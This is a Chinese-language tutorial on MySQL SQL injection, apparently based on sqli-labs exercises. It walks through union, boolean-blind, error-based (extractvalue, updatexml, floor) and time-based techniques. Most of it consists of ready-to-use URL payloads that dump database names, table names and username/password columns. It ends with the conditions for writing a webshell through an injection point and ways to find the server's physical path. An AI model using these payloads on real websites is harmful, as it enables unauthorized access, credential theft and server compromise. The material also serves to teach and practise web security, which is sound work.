# SQL注入

## SQL注入基础

### 什么是注入

概念：所谓SQL注入，就是通过把SQL命令插入到WEB表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令，从而进一步得到相应的数据信息。

### 注入分类

按照查询字段：

字符型：当输入的参数为字符串时，称为字符型

数字型：当输入的参数为整形时，可以认为是数字型注入

按照注入方法：
Union注入，报错注入，布尔注入，时间注入

### 注入点

概念：注入点就是可以实行注入的地方，通常是一个访问数据库的连接。

https://blog.csdn.net/Jaasenyi/article/details/113648313

### 步骤

1. 查找注入点
2. 判断是字符型还是数字型注入 and 1=1    1=2/     3-1
3. 如果是字符型，找到他的闭合方式，'  "  ')  ")
4. 判断查询列数，group by    order by
5. 查询回显位置，-1

## UNION注入



查库名

```
select schema_name from information_schema.schemata
```

查某库的数据表

```
select table_name from information_schema.tables where table_schema=’xxxxx’
```

查某表的所有列

```
select column_name from information_schema.columns where table_name=’xxxxx’
```

查某列的内容

```
select *** from ***

插入"~"区分数据
select 1,group_concat(username,'~',password),3 from users --+
```

### group_concat()的作用

确保所有查询信息能放到一行显示出来

```
例如查表名
select 1,group_concat(table_name),3 from information_schema.tables where table_schema = 'xxx'
```



### 搜索型注入

搜索型即模糊匹配在 MySQL 中的模糊匹配符号是%所以注入时要加上%其它同理

### XX型注入

字符型注入的一种只是闭合符不同

## 盲注

盲注的分类


### 布尔盲注

布尔盲注的条件



闭合符号判断



关键函数

```
ascii()	可以把字母转换为对应的数字
ord()	返回第一个字符的ascii码

substr((),1,1)	将()从第一个字符开始一次显示一个字符
例如：
将查到的库名从第一个字符开始显示一个字符
substr((select database()),1,1)
查库名的第二个字符
substr((select database()),2,1)
组合使用
ascii(substr((select database()),1,1)) >= 100

mid()	用法和substr()一致


length()	返回字符的长度
例如：
将查到的库名去猜库名的长度为8然后通过判断页面是否为真来猜长度
length(database()) = 8

left(database(),1)	和substr差不多，表示显示从左边开始第一位的字符

获取第二个表
ascii(substr((select table_name from information_schema.tables where table_schema = database() limit 1,1),1,1))>113--+

limit 0,1	表示从第0个开始获取第一个
所有 limit 1,1	就表示获取第二个
```

为什么要把字母转换成数字?

因为查询命令可以执行，但不会返回信息到页面



通过二分法比大小去猜字母



正则注入

```
▲regexp 正则注入
用法介绍：select user() regexp '^[a-z]';
正则表达式的用法，user()结果为 root，regexp 为匹配 root 的正则表达式。
第二位可以用 select user() regexp '^ro'来进行。

select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));

select * from users where id=1 and 1=(user() regexp'^ri');

通过 if 语句的条件判断，返回一些条件句，比如 if 等构造一个判断。根据返回结果是否等
于 0 或者 1 进行判断。
```

like 匹配注入

```
和上述的正则类似，mysql 在匹配的时候我们可以用 ike 进行匹配。
用法：select user() like ‘ro%’
```

总结：布尔盲注即用二分法，通过页面的真假判断数字的大小，推断出对应的字母，进一步拼凑出所有的字符串，从而得出想要获得的信息

### 报错注入

当页面没有正常回显但是有报错就可使用报错注入



#### extractValue()报错注入

```
函数extractValue()包含两个参数
第一个参数 XML文档对象名称，第二个参数 路径
```



目的：用extractvalue报错回显出我们想要的查询结果

例子：

利用extractvalue报错注入 less5



```
使用extractvalue报错注入得到库名
?id=100' union select 1,extractvalue(1,concat(0x7e,(select database()))),3 --+

0x7e即'~'符号
在使用extracvalue函数是第一个参数可以任意填入，不影响
查表 查列 查内容与查库类似

查表
?id=100' union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()))) --+

查列
?id=100' union select 1,2,extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users'))) --+

查数据
如果不知道列数也可用 and 1=xxx
?id=100' and 1=extractvalue(1,concat(0x7e,(select group_concat(username,'~',password) from users))) --+
默认只能返回32个字符串
```

查表查数据：



使用函数substring解决只能返回32个字符串问题



```
substring()	第一个参数为目标字符串，第二个参数为从哪个位置开始，第三个参数为显示字符数
同substr
```

#### updatexml报错注入

updatexml函数



例子：

```
?id=1" and 1=updatexml(1,concat('~',(select database())),3) --+

1'or(updatexml(1,concat(0x7e,database(),0x7e),1))#
查表名、列名、内容与union注入相似
```



#### floor报错注入

涉及到的函数

```
rand()函数：随机返回0~1间的小数

floor()函数：小数向下取整数。向上取整数 ceiling()

concat_ws()函数：将括号内数据用第一个字段连接起来

group by子句：分组语句，常用于，结合统计函数，根据一个或多个列，对结果集进行分组

as：别名

count()函数：汇总统计数量

limit：这里用于显示指定行数
```

完整的一段floor报错注入例子：

```
?id=0' union select,count(*),concat_ws('-',(select concat('~',id,username,':',password) from users limit 0,1),floor(rand(0)*2)) as a from information_schema.tables group by a --+
```

---


floor报错分解：

```
rand()
	select rand() from users;	根据表users的行数随机显示结果

floor()
	select floor(rand()*2);	结果随机为0或者1

concat_ws()
	select concat_ws('-',(select database()),floor(rand()*2)) from users;	将括号内数据用'-'连接起来

as,group by分组
	select concat_ws('-',(select database()),floor(rand()*2)) as a from users group by a;

count()汇总
	select count(*),concat_ws('-',(select database()),floor(rand()*2)) as a from users group by a;
```

报错：


报错原理分析：



例子：

```
查看版本号
?id=1' union select 1,count(*),concat_ws('-',(select version()),floor(rand(0)*2)) as x from information_schema.tables group by x --+


如果要查看库名，表名，列名与union注入相似,只需修改加粗位置语句即可
比如：
?id=1' union select 1,count(*),concat_ws('-',(select group_concat(username,password) from users),floor(rand(0)*2)) as x from information_schema.tables group by x --+


如果使用group_concat()不显示可以使用concat，然后使用limit 1,1控制显示
?id=1' union select 1,count(*),concat_ws('-',(select concat('~',username,':',password) from users limit 1,1),floor(rand(0)*2)) as x from information_schema.tables group by x --+


注意：
1.information_schema.tables	跟查询表名没有关系，使用它只是因为数据需要足够多来产生报错
2.rand()里面参数填入0必然会产生报错
3.使用as取别名使代码更方便
```

注意：floor报错的好处是能显示64位字符，比上面两种报错多显示一倍

### 时间盲注

关键函数：

```
sleep()	通过sleep()函数往里面添加参数，从而影响网页的响应时间来判断闭合方式，或者判断是否成功注入
```



```
if(condition,true,false)	condition为条件，true当条件为真时返回的值，false当条件为假时返回的值
```



查看网页响应时间的长短：



具体例子：

```
时间盲注需要结合布尔盲注ascii相关知识，通过网页响应时间来猜库名每一位的字母
select if(ascii(substr((select database()),1,1))>100,sleep(0),sleep(3));

更改substr参数推算第二个字母，并以此推算出剩余字母，直到得出结果
select if(ascii(substr((select database()),2,1))>100,sleep(0),sleep(3));

替换入需要查询的命令语句
查表名
?id=1' and if(ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1))>100,sleep(0),sleep(3))

查列名，内容方法类似
```

可直接and + if语句



时间盲注的闭合符的判断

```
哪种响应时间符合休眠时间就是哪种闭合
?id=1 and sleep(3)--+
?id=1' and sleep(3)--+
?id=1') and sleep(3)--+
?id=1" and sleep(3)--+
?id=1") and sleep(3)--+
```

## Sql注入文件上传

文件上传要点：


- secure-file-priv的值有三种情况：
- secure_file_prive=null ---限制mysqld 不允许导入导出
- secure_file_priv=/path/ ---限制mysqld的导入导出只能发生在默认的/path/目录下
- secure_file_priv=' ' ---不对mysqld 的导入 导出做限制

通过注入点写入木马程序的前提条件：

```
1、mysql开启了secure_file_priv=""的配置
2、知道了网站代码的真实物理路径
3、物理路径具备写入权限
4、最好是root用户，这个条件非必须，但是有最好
```

获得后台真实物理路径的方法：

```
1、收集站点敏感目录，比如phpinfo.php探针文件是否可以访问到
2、站点网址输入一些不存在的网址或者加一些非法参数数据，让数据报错，看错误信息中是否存在路径信息
3、指纹信息收集
